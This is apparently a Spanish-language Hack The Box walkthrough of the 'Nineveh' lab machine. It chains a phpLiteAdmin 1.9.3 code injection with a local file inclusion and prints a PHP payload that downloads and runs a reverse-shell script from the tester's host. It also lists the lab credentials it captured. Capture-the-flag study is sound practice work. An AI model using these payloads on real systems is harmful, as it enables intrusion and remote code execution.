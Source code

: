 ```bash
```
Buscamos por searchsploit:
```bash
# searchsploit phpLiteAdmin 1.9
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                                                                                    | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                                                                                     | php/webapps/39714.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Conseguimos acceder al servicio `phpLiteAdmin` 

Y leyendo la vulnerabilidad encontrada en la version 1.9.3 vemos que `creando una nueva Base de Datos` con `extension .php` podemos inyectar una nueva tabla que almacene una cadena tipo TXT en donde podemos `meterle un codigo php malicioso`
 
Creamos una nueva base de datos con `extension .php` en `phpLiteAdmin` ruta: `https://nineveh.htb/db/index.php?switchdb=%2Fvar%2Ftmp%2FninevehNotes.php` 

Nombre de la BD creada `ninevehNotes.php` le agregamos un campo `“shell” 1 de valor`,  despues llamamos `shell a la tabla`,  tipe `TXT` y le metemos el comando malicioso en php en la opcion `default Value` para que se ejecute al final.
```bash
<?php system("wget http://10.10.14.12/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>
```

Credenciales Obtenidas hasta el momento:
```bash
Para phpLiteAdmin: password123
Para login en Https /department/: 
User: admin 
Password: 1q2w3e4r5t
```
Entramos a la web HTTP con las credenciales y descubrimos que existe un LFI en la ruta 
```bash
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php
```
Habiendo creado nuestra nueva base de datos con nuestro codigo malicioso en php probamos a apuntar desde el LFI.
Apuntamos a la ruta `/var/tmp/ninevehNotes.php`

Habiendo puesto un servidor en escucha almacentando nuestra `“Reverse_Shell_PHP”` → `'shell.txt'` para que se nos envie una conexion reversa cuando se ejecute por el puerto `1234`
